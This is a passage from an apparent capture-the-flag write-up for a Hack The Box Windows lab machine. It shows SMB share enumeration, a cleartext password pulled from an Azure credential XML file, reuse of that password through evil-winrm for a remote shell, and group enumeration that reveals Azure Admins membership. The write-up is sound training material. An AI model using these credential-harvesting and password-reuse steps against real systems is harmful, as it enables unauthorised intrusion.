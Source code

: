 We'll connect to the various shares with `smbclient`.

```bash
$ smbclient \\\\10.10.10.172\\users$ -U SABatchJobs%SABatchJob
```

Within the `users$` share we find multiple user folders. With some poking around we discover that the user mhope has an interesting xml file. Using the `get` command, we can retrieve it. Opening it, we find a password stored in cleartext.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

We can only assume that this belongs to the user mhope. With luck, this user also uses the same password across services. Let's leave the shares behind for now and return to attempt remote access using WinRM.

With the help of `evil-winrm`, a Windows Remote Management tool for pentesting, we gain a foothold on the machine.

```bash
$ evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

On the user's desktop, we'll find our first flag!

![](/assets/img/posts/htb/05-2020-3/user-flag.png)

## Root Flag

Now that we have remote access to a user on the system, we need to see what permissions this account has and what groups they are apart of. Let's use the command `net user` to start.

```powershell
> net user mhope
[...]
Global Group memberships     *Azure Admins         *Domain Users
```
